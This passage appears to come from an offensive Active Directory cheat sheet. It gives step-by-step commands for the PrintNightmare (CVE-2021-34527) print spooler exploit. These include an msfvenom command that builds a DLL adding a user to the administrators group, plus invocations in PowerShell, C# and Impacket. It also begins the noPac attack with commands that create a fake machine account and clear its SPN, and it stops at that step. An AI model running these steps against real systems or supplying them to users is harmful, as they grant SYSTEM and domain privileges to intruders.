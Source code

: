 >[!References]
>- https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/
>- https://twitter.com/an0n_r0/status/1571598587439775745?s=20&t=q3-YgJ7LcZATARKd0JnlKQ
>- https://www.trustedsec.com/blog/practical-attacks-against-ntlmv1/?utm_content=221361665&utm_medium=social&utm_source=twitter&hss_channel=tw-403811306

# PrintNightmare
Abusing printer spooler service (CVE-2021-34527) to load malicious DLL and execute as SYSTEM. Available POCs can be found here
| Link          | Authors         |Language|
| ------------- | ------------- | ----- |
| https://github.com/cube0x0/CVE-2021-1675      | [@cube0x0](https://twitter.com/cube0x0) | python, c# |
| https://github.com/calebstewart/CVE-2021-1675      | [@calebsteward](https://twitter.com/calebjstewart)      |  PowerShell |

1. Generate `msfvenom` payload
```bash
msfvenom -p windows/x64/exec CMD="net.exe localgroup administrators testuser /add" -f dll -o test.dll
```

2. Run these commands _(either one)_
```powershell
# Powershell
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"

# SharpPrintNightMare
SharpPrintNightmare.exe C:\Windows\Tasks\execme.dll

# Python Impacket Implementation
## setup smbserver
smbserver.py smbshare `pwd` -smb2support
python3 CVE-2021-1675.py testlab/testuser:'P@$$w0rd!'@10.10.10.10 '\\10.10.10.10\smbshare\encme.dll' [-hashes :NTLM]
```

# noPac
This exploit will require a valid domain user regardless the level of privilege given as long as it can create a computer account on the domain. Here are the steps.

1. Create a fake computer with [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad) script.
```powershell
New-MachineAccount -MachineAccount "FakeComputer" -Password $password -Domain legitcorp.local -DomainController DC01.legitcorp.local -Verbose
```

2. Clear the fake computer's ServicePrincipalName (SPN) value
```powershell
Set-DomainObject "CN=FakeComputer,CN=Computers,DC=legitcorp,DC=local" -Clear "serviceprincipalname" -Verbose -Domain legitcorp.local
```
